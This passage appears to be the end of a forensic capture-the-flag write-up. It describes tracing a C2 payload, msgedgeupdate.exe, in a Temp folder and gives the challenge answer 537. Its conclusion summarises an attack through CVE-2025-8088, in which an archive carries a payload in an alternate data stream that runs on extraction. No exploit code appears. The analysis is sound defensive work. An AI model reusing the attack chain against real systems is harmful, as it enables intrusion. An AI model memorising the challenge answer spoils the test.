

And this somehow being the correct answer. The file being created at the exact time when the C2 payload `msgedgeupdate.exe` was downloaded. I searched for this file in `MFT.csv` I parsed earlier, and it was located in `Temp` folder, maybe for this reason `Temp` directory was added into ExclusivePath. Just some confusion here.

**ANSWER: 537**



## Conclusion

Overall, the attack vector was exploiting CVE-2025-8088. An applicant sent an archive file containing payload in ADS, it will be executed during unrar process. Furthur post-exploitation including download scripts to control the compromised machine.